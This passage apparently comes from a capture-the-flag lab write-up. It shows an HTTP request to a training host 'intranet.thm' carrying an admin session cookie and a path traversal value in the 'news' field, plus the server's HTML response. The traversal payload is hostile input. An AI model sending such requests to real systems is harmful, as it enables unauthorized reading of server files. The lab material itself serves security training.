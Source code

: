 




```bash
POST /internal HTTP/1.1
Host: intranet.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://intranet.thm:8080/internal
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://intranet.thm:8080
Connection: keep-alive
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.aN1TIg.LqAuqWsg9sat6UZbV4ycja_2mVk
Upgrade-Insecure-Requests: 1
Priority: u=0, i

news=../../../../var/www/html/index.html
```


```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Wed, 01 Oct 2025 16:36:12 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1761
Vary: Cookie
Connection: close


<!DOCTYPE html>
...<ul>
  <li><a href="/home">Home</a></li>
  <li><a class="active" href="/internal">Internal News</a></li>
  <li><a href="/external">External News</a></li>
  <li><a href="/admin">Admin</a></li>
  <li><a href="/logout">Log Out</a></li>
</ul>

<div style="margin-left:11%;padding:1px 16px;height:1000px;">
  <h2>Internal news feed</h2>
  <br><h3>1. New features</h3>
  <p>As many of you may be aware of, we are still working on the application.<br>
  Please be patient, as new features will be implemented according to the business plan.</p><br>
  <h3>2. Developers</h3>
  <p>We are currently hiring new developers! Know someone who is skilled with:<br>
  - PHP (yes, we know, we know...)<br>
  - Pascal<br>
  - JavaScript<br>
  - Python<br>
  - Perl<br><br>
  Then please give us a tip at hiring@securesolacoders.no. We are offering recruitment bonuses.</p><br>
  <p><br>Any cool news we should know about? Contact us!</p>
  <p>internal@securesolacoders.no</p><br>

<form action="/internal" method="POST">
    <h4>Update news feed</h4>
    <button type="submit" name="news" id="news" value="latest">Update</button>
  
```